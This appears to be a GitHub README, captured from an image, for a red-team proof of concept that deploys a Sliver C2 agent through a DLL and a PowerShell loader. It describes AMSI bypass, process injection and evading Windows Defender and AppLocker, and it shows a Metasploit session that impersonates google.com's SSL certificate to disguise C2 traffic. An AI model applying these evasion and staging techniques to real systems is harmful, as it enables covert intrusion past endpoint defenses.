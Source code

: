 # SliverLoader

This proof of concept (PoC) utilizes a DLL and a PowerShell loader to deploy a Sliver Agent, incorporating AMSI bypass, process injection, hollowing, and operational security (OpSec) through an impersonated SSL certificate. The shellcode runner is implemented in C# using the .NET Framework 4.0, which is typically pre-installed on Windows 10 and newer systems, and is also available on many updated legacy systems. Execution is facilitated via PowerShell. The PoC aims to bypass defenses including Windows Defender, AMSI, PowerShell Constrained Language Mode, and AppLocker. Additionally, the runner employs HTTPS protocol utilizing custom SSL certificates and keys for staging, and employs AES encryption to further obfuscate the shellcode, enhancing security layers.

## SSL Certificate

To encrypt the traffic, a self-signed certificate is used, which fetches information from a specified URL to make the certificate appear more legitimate. There is a module created by Chris John Riley called **impersonate_ssl** that generates a certificate based on the information it gathers from the certificate of a website specified in the module's RHOST parameter.
```text
msf6 > use auxiliary/gather/impersonate_ssl
msf6 auxiliary(gather/impersonate_ssl) > set RHOST www.google.com
RHOST => www.google.com
msf6 auxiliary(gather/impersonate_ssl) > run
[*] Running module against 172.217.21.164

[*] 172.217.21.164:443 - Connecting to 172.217.21.164:443
[*] 172.217.21.164:443 - Copying certificate from 172.217.21.164:443
/OU=No SNI provided; please fix your client./CN=invalid2.invalid
[*] 172.217.21.164:443 - Beginning export of certificate files
[*] 172.217.21.164:443 - Creating looted key/crt/pem files for 172.217.21.164:443
[+] 172.217.21.164:443 - key: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_k_267041.key
[+] 172.217.21.164:443 - crt: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_c_797072.crt
[+] 172.217.21.164:443 - pem: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_p_382037.pem
```
For further handling, the certificate is copied to `~/Code/certs/` as `crt.crt`, `pem.pem` and `key.key`.

## Sliver C2 Setup

The chosen Command and Control (C2) framework is [Sliver](https://github.com/BishopFox/sliver) developed by BishopFox, although the concept is adaptable to other frameworks such as Metasploit or Havoc. Follow the installation instructions provided on the [Getting Started](https://sliver.sh/docs?name=Getting+Started) page of Sliver's wiki to set it up.

The next steps involve setting up the necessary profile, listener, and stage-listener. It is noted that the IP addresses and paths to assets, such as certificates, need to be adjusted to fit the specific environment.




